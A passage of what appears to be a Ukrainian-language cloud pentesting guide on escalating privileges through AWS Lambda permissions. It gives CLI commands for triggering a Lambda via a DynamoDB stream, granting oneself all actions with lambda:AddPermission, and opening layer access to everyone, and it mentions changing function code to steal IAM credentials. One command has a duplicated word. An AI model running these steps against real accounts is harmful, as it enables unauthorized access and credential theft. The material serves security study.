 ```bash
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
Зараз можливо **підключити функцію Lambda до таблиці DynamoDB**, створивши **відображення джерела подій**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
За допомогою функції Lambda, пов'язаної з потоком DynamoDB, зловмисник може **непрямо активувати Lambda, активуючи потік DynamoDB**. Це можна зробити, **вставивши елемент** у таблицю DynamoDB:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**Потенційний вплив:** Пряме підвищення привілеїв до вказаної ролі служби lambda.

### `lambda:AddPermission`

Зловмисник з цим дозволом може **надати собі (або іншим) будь-які дозволи** (це генерує політики на основі ресурсів для надання доступу до ресурсу):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda lambda invoke --function-name <func_name> /tmp/outout
```
**Потенційний вплив:** Пряме підвищення привілеїв до ролі служби lambda шляхом надання дозволу на зміну коду та його виконання.

### `lambda:AddLayerVersionPermission`

Зловмисник з цим дозволом може **надати собі (або іншим) дозвіл `lambda:GetLayerVersion`**. Він може отримати доступ до шару та шукати вразливості або чутливу інформацію.

{% endcode %}
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
### `lambda:UpdateFunctionCode`

Користувачі, які мають дозвіл **`lambda:UpdateFunctionCode`**, мають можливість **змінювати код існуючої функції Lambda, яка пов'язана з роллю IAM.**\
Атакувальник може **змінити код лямбди для витіснення IAM-підтверджень**.
